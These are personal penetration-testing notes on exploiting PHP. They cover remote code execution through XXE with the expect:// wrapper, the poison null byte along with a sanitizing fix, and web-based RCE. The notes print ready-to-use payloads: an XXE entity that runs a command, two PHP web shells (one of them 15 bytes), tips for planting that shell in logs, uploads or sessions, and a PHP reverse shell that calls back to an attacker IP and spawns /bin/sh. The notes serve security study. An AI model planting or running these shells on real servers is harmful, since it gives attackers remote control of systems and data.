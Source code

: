 # Exploiting PHP

**author**:: Nathan Acks  
**date**:: 2022-07-11

## RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [XXE (XML External Entity) Attacks](xml-external-entity-attacks.md)

## The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [The Poison Null Byte](poison-null-byte.md)

## Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

### Relevant Twitter Thread

[Did you know the shortest payload to achieve code execution in PHP is only 15 bytes long ? 🤯 If you can inject it in a page on the site you will achieve remote code execution! This is really useful in BugBounty or pentest when you have a limited input size. (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921781637365771)

[To trigger the code execution, you have to find a way to access your injected page (direct access or inclusion) and add this GET parameter to the URL: http://localhost:8000/rce.php?1=id (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921786515435520)

[This payload can be used to be reflected in many files on a web application, for example you can put it: (1) In metadata, (2) somewhere in the logs, (3) in an uploaded file that you control, (4) in your PHP session (it will be written to a file) (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921788742569987)

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

Alternately, a *very* simple shell (suitable for running at the command line):

```php
$attacker_ip = "10.0.0.1";
$attacker_port = 1234;

$sock = fsockopen($attacker_ip, $attacker_port);

exec("/bin/sh -i <&3 >&3 2>&3");
```

Catch it with netcat or socat.
